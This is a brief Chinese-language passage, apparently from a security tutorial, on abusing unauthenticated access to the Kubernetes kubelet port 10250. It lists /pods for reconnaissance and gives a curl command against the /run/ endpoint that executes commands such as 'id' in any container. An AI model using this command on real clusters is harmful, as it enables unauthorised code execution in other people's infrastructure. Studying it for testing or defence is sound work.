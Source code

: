 
如果 10250 端口存在未授权访问漏洞，那么我们可以先使用/pods 接口获取集群的详细信息，如 namespace，pods，containers 等

![](assets/1700701621-5ee5fff6db3aab4a1e75206d71bf8ba5.png)

之后再通过  
curl -k [https://Kubernetes-node-ip:10250/run/](https://kubernetes-node-ip:10250/run/)// -d“cmd=id”的方式在任意容器里执行命令
